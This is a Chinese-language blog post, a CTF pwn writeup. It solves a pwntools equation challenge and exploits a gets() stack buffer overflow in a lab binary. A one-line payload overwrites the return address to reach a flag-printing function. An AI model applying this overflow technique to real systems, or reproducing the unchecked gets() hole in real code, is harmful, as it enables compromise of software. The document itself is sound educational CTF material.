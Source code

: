 ```yaml
---
layout: post
title:  "Pwn CTF Writeup"
date:   2021-01-29 14:41:44 +0800
tags: CTF Writeup
color: rgb(255,90,90)
cover: '/assets/pwn-ctf/cover.png'
subtitle: 'Pwn-CTF Writeup'
---
```

**Intro：**
  : 一個高中生的CTF練習 剛好是我想要學習的PWN所以就跟著高中生一起嗨ＯＵＯ
  : 由於過了一段時間，所以題目順序就～隨性

**Problems：**
- TOC
{:toc}

# Math Teacher
[**Source File**](/assets/pwn-ctf/math-teacher/source){:target="_blank"}

## Discription
{: .no_toc}
- 這題簡單的考你會不會用 pwntools 
- 問100題二元一次方程式，解完就有FLAG

## Solution
{: .no_toc}
- 用克拉馬公式

``` python
def cal():
    f1 = r.recvline()
    f2 = r.recvline()

    print("Function 1: ", f1)
    print("Function 2: ", f2)

    a1 = int(f1[:f1.find(b'x')-3])
    b1 = int(f1[f1.find(b'+')+1:f1.find(b'y')-3])
    c1 = int(f1[f1.find(b'=')+1:])

    a2 = int(f2[:f2.find(b'x')-3])
    b2 = int(f2[f2.find(b'+')+1:f2.find(b'y')-3])
    c2 = int(f2[f2.find(b'=')+1:])

    delta = a1*b2-a2*b1

    if delta == 0:
        x = 0
        y = int(c1/b1)
    else:
        x = int((c1*b2-b1*c2)/delta)
        y = int((a1*c2-c1*a2)/delta)

    r.recvuntil('= ')
    r.sendline(str(x))
    r.recvuntil('= ')
    r.sendline(str(y))
```

# Go Home
[**Source File**](/assets/pwn-ctf/go-home/source){:target="_blank"}

## Discription 
{: .no_toc}
- 先是問你有沒有 Home

  ```shell
  Billy want to go home now.
  Do you know the address of his house ?
  ```
- SourceFile 又有給 Home

  ``` c
  void Billyshouse(){
    system("cat /home/ctf/flag");
  }
  ```

- `<main>` 的 stack長度 $\gt$ `gets` 能輸入的長度
    ![](/assets/pwn-ctf/go-home/discription-0.png)

\* $\color{red}{\text{0x20} \lt \infty}$ (gets 輸入長度沒有限制)
{: .notify}

## Solution
{: .no_toc}
- 簡單的 **Bof** 蓋過 `<main>` 的 `ret`

這邊有兩個要注意的地方
{: .notify}
  1. ubuntu 20 以後的 stack 對齊
    : 就是蓋過 `ret` 之後跳進 function 裡面的時候stack結尾必須是0x0不能是0x8
  2. `gets` 預設從 `$rbp - 0x20` 開始跳
    : 也就是 ```OFFSET = 0x20 + 0x8```{: .language-ruby}

## Payload
{: .no_toc}
- 1.要跳過的方法有很多，最簡單的就是不要跑 [**Function Prologue**](https://en.wikipedia.org/wiki/Function_prologue) 讓 stack 多了 `0x8` 就好
- 直接跳到 `0x4006ca` 就好

```python
payload = b'A'*0x28 + p64(exe.symbols['Billyshouse']+0x4)
```

# To be done...
